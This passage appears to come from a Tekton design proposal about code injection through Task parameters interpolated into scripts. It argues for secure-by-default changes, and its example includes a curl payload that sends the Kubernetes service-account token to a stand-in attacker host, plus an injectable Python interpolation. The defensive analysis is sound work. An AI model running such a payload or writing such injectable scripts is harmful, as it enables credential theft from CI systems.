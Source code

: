 Given that we have recognized a flaw in our own usage, it bears exploring whether
this means there are flaws in the tool itself that allow this to occur. The flaws
were previously discussed in [TEP-0017][tep-0017], but we pushed back deciding on
a solution in favor of documenting the existing workarounds. It is time to revisit
the problem and explore a solution considering our:
1. Move towards a v1.X or v2 API - decide on path forward ahead of stabilizing the API
2. Change in usage of `Parameters` in `Script` in dogfooding
3. Focus on security, including leaning into secure by default

####  Security

It is easy for a `Task` _author_ to accidentally introduce a vector for code
injection and, by contrast, difficult for a `Task` _user_ to verify that such
an injection can't or hasn't taken place.

To audit whether a `Task` is at risk of code injection, a user would need
to determine two things: first whether that `Task` includes a `Parameter`
directly referenced from a `Script` and, if it does, whether that 
`Parameter` was ever populated using untrusted input.

To determine if a `Parameter` could have been populated by untrusted input
the user would need to:
1. read the `Task`
2. read all `Pipelines`, `PipelineRuns` and `Trigger Templates` that
   reference the `Task`
3. trace the values passed to that `Parameter` via those resources
   back to their original source
4. determine if that source could have been user-generated

One security risk is that an attacker can exfiltrate sensitive data, as shown in the
example below. We need to lean into being secure by default to prevent such attacks.

##### Example

A `Task` with a `Step` *foo* interpolates `Parameter` *bar* in its `Script`, as such:

`bash example`
```yaml
  steps:
  - name: foo
    image: myimage
    script: |
      echo $(params.bar)
```

As warned in the [recommendations][catalog-recommendation], an attacker can access the
service account token for the `TaskRun` using `Parameter` *bar* as `$(curl -s
http://attacker.example.com/?value=$(cat/var/run/secrets/kubernetes.io/serviceaccount/token))`.


`python example`
```yaml
  steps:
  - name: greet-user
    image: python:3.9-slim
    script: |
      #!/usr/bin/env python3
      user_name = '$(params.username)'
      print(f'Hello, {user_name}!')
```


[catalog-recommendation]: https://github.com/tektoncd/catalog/blob/main/recommendations.md#dont-use-interpolation-in-scripts-or-string-arguments
[git-cli]: https://github.com/tektoncd/catalog/blob/4f365ec668973abe3c2df87323b3b7e4bd4a614a/task/git-cli/0.3/git-cli.yaml#L137
[catalog-pr-711]: https://github.com/tektoncd/catalog/pull/711
[plumbing-pr-973]: https://github.com/tektoncd/plumbing/pull/973
[plumbing-pr-974]: https://github.com/tektoncd/plumbing/pull/974
[plumbing-pr-975]: https://github.com/tektoncd/plumbing/pull/975
[plumbing-pr-976]: https://github.com/tektoncd/plumbing/pull/976
[plumbing-pr-977]: https://github.com/tektoncd/plumbing/pull/977
[secure-by-default]: https://en.wikipedia.org/wiki/Secure_by_default
[params-vars-docs]: https://github.com/tektoncd/pipeline/blob/main/docs/tasks.md#substituting-parameters-and-resources
[tep-0086-alt]: https://github.com/tektoncd/community/pull/521/files#diff-6057e05e8be034edde14ed71128372a35468e25c3f6c9809be8cc8a1e78ada94R287
[tep-0086-prop]: https://github.com/tektoncd/community/pull/521/files#diff-6057e05e8be034edde14ed71128372a35468e25c3f6c9809be8cc8a1e78ada94R275
[pipeline-issue-781]: https://github.com/tektoncd/pipeline/issues/781
[tep-0017]: https://github.com/tektoncd/community/pull/208
[tep-0023]: https://github.com/tektoncd/community/blob/main/teps/0023-implicit-mapping.md
[tep-0099]: https://github.com/tektoncd/community/pull/596
[triggers-issue-675]: https://github.com/tektoncd/triggers/issues/675
[pipeline-issue-3226]: https://github.com/tektoncd/pipeline/issues/3226
[templating-doc]: https://docs.google.com/document/d/1h_3vSApIsuiwGkrqSiegi4NVaYG4oVzBquGAhIN6qGM/edit?usp=sharing
[security-hardening-for-github-actions]: https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions#using-an-intermediate-environment-variable